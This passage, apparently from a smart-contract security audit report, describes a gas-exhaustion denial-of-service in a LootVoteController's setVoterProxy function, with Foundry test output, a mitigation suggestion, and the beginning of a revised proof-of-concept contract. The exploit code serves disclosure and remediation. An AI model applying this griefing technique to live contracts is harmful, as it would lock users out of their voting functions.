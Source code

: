 ```javascript

        console.log("Gas Used for calling setVoterProxy: ", gasBefore - gasAfter);
        vm.stopPrank();
       
    }
}
```

* Run the test with command :  `forge test --match-test test_DOSinSetVoterProxy -vv`:

Foundry Result:
```javascript
Running 1 test for contracts/test/LootVoteController.t.sol:LootVoteControllerTest
[PASS] test_DOSinSetVoterProxy() (gas: 8775765976)
Logs:
  Gas Used for calling setVoterProxy:  3451669

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 74.51s
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
mac@macs-MacBook-Pro Vote-Flywheel % 
```

### Recommended Mitigation

Consider setting a upper bound of proxy that an approved manager can add. Additionally, consider allow users to disapprove previously approved managers in case they try to act maliciously.




### Revised Proof of Concept Code

I have attached a slightly modified PoC as follows, the PoC below showcased when users delegate himself to a malicious manager, the manager can create a bunch of useless proxies that expired instantly after the `startTimestamp` to DoS the user from using `setVoterProxy` & `clearUserExpiredProxies` in the future as the contract trying to loop through all the expired proxies and remove them 1 by 1 which can be very gas consuming. I think this issue can also be categorised as griefing attack.


```javascript
pragma solidity 0.8.20;

import {LootVoteController} from "../contracts/LootVoteController.sol";
import {Test, console} from "forge-std/Test.sol";
import {HolyPalPower} from "../contracts/HolyPalPower.sol";
 
contract HolyPaladinToken {
    	struct UserLock {
        // Amount of locked balance
        uint128 amount; // safe because PAL max supply is 10M tokens
        // Start of the Lock
        uint48 startTimestamp;
        // Duration of the Lock
        uint48 duration;
        // BlockNumber for the Lock
        uint32 fromBlock; // because we want to search by block number
    }

    struct TotalLock {
        // Total locked Supply
        uint224 total;
        // BlockNumber for the last update
        uint32 fromBlock;
    }

    function getUserLock(address user) external view returns (UserLock memory) {
```